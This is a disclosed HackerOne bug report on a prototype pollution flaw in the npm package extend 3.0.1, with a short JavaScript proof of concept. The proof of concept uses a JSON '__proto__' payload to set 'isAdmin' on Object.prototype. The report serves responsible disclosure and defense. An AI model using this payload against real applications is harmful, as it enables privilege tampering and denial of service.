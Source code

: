 # Prototype pollution attack (extend)

## Report Details
- **Report ID**: 381185
- **URL**: https://hackerone.com/reports/381185
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-07-13T10:04:52.180Z
- **Disclosed**: 2018-08-22T07:48:35.622Z

## Reporter
- **Username**: asgerf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report prototype pollution in extend
It allows an attacker to inject properties on Object.prototype.

# Module

**module name:** extend
**version:** 3.0.1
**npm page:** `https://www.npmjs.com/package/extend`

## Module Description

`node-extend` is a port of the classic extend() method from jQuery. It behaves as you expect. It is simple, tried and true.

> **Note**: The github project is called `node-extend` but the NPM package is just `extend`

## Module Stats

7M downloads in the last week

# Vulnerability
## Vulnerability Description

This is a variant of this vulnerability:
https://hackerone.com/reports/310443

The `extend` function can be tricked into adding or modifying properties of the Object prototype. These properties will be present on all objects.

## Steps To Reproduce:

Craft an object of form `{__proto__: {...}}` and send it to `extend(true, {}, ...)`.

```javascript
let extend = require('extend');
let payload = JSON.parse('{"__proto__": {"isAdmin": true}}');
extend(true, {}, payload);
console.log({}.isAdmin); // true
```

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

Denial of service, possibly more depending on the application.
See https://hackerone.com/reports/310443

## Attachments
No attachments
